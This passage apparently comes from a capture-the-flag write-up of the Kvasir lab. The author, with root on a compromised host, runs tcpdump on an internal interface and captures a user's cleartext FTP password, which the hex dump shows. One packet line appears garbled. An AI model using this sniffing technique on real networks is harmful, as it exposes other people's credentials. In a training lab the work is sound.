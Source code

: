 This was the first time I was really stuck on Kvasir. After quite a bit of poking around, I noticed a user `celes` in `/etc/pure-ftpd/pureftpd.passwd`, with a password that I was not able to crack. The host itself did not have this user configured either. I was starting to think that this server has nothing really to offer in the form of post exploitation and started planning exploration of neighboring hosts and their network services.

At one stage, I was checking to see what network activity was present on the interfaces, of which `eth0` had my SSH session, and `eth1` was quiet. At least, until I was about to close the tcpdump I had this sudden burst of packets:

```bash
root@db:~# tcpdump -i eth1
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth1, link-type EN10MB (Ethernet), capture size 65535 bytes
13:19:01.355970 IP 192.168.3.40.36425 > 192.168.3.200.ftp: Flags [S], seq 2471029534, win 14600, options [mss 1460,sackOK,TS val 13092832 ecr 0,nop,wscale 5], length 0
13:19:01.355988 IP 192.168.3.200.ftp > 192.168.3.40.36425: Flags [S.], seq 2507516314, ack 2471029535, win 14480, options [mss 1460,sackOK,TS val ack 535, win 490, options [nop,nop,TS val 13092837 ecr 13092836], length 0

[... snip ...]

13:19:01.378604 IP 192.168.3.200.ftp > 192.168.3.40.36425: Flags [P.], seq 535:548, ack 53, win 453, options [nop,nop,TS val 13092837 ecr 13092837], length 13
13:19:01.378631 IP 192.168.3.40.36425 > 192.168.3.200.ftp: Flags [R], seq 2471029587, win 0, length 0
^C
29 packets captured
29 packets received by filter
0 packets dropped by kernel
```

I changed the command to add the `-X` flag as this looked like FTP traffic flowing over the interface (you haven't forgotten the ftp server yet have you?).

```bash
13:25:01.387981 IP 192.168.3.200.ftp > 192.168.3.40.36437: Flags [P.], seq 321:359, ack 13, win 453, options [nop,nop,TS val 13182840 ecr 13182839], length 38
    0x0000:  4510 005a 7e22 4000 4006 342b c0a8 03c8  E..Z~"@.@.4+....
    0x0010:  c0a8 0328 0015 8e55 1bf0 5a96 015a 5499  ...(...U..Z..ZT.
    0x0020:  8018 01c5 42a1 0000 0101 080a 00c9 2778  ....B.........'x
    0x0030:  00c9 2777 3333 3120 5573 6572 2063 656c  ..'w331.User.cel
    0x0040:  6573 204f 4b2e 2050 6173 7377 6f72 6420  es.OK..Password.
    0x0050:  7265 7175 6972 6564 0d0a                 required..

13:25:01.388050 IP 192.168.3.40.36437 > 192.168.3.200.ftp: Flags [P.], seq 13:32, ack 359, win 490, options [nop,nop,TS val 13182840 ecr 13182840], length 19
    0x0000:  4500 0047 73fe 4000 4006 3e72 c0a8 0328  E..Gs.@.@.>r...(
    0x0010:  c0a8 03c8 8e55 0015 015a 5499 1bf0 5abc  .....U...ZT...Z.
    0x0020:  8018 01ea a5ae 0000 0101 080a 00c9 2778  ..............'x
    0x0030:  00c9 2778 5041 5353 2069 6d32 3242 4634  ..'xPASS.im22BF4
    0x0040:  4858 6e30 310d 0a                        HXn01..

```
